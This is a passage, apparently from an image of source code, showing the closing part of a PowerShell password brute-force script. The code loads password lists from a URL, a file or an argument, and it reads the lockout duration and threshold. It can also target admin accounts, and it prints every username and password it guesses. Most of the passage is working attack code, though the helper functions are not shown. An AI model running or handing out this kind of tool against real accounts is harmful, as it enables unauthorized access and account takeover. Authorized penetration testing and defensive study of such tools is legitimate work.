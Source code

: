 ```
        If ($amount -eq $done.Length) {Break}

   # Take a nap for a second
   Start-Sleep -m 1000

   } # Main While loop

   If ($results.Length -gt 0)
   {
       Write-Host "Users guessed are:"
       For($i = 0; $i -lt $results.Length; $i += 2) {Write-Host " '$($results[$i])' with password: '$($results[$i + 1])'"}
   }
   Else {Write-Host "No passwords were guessed."}
}

$passwords = $null

If ($Url -ne '')
{
    $passwords = Parse-Url $Url
}
ElseIf($File -ne '')
{
    $passwords = Parse-File $File
}
Else
{
    $passwords = $Pass.Split(",").Trim()   
}

If($passwords -eq $null)
{
    Write-Host "Error in password input, please try again."
    Exit
}

# Get password policy info
$duration = Get-Duration
$threshold = Get-threshold

If ($Admins) {Write-Host "WARNING: also targeting admin accounts." -BackgroundColor DarkRed}

# Call the main function and start the brute force
BruteForce $duration $threshold $passwords
```







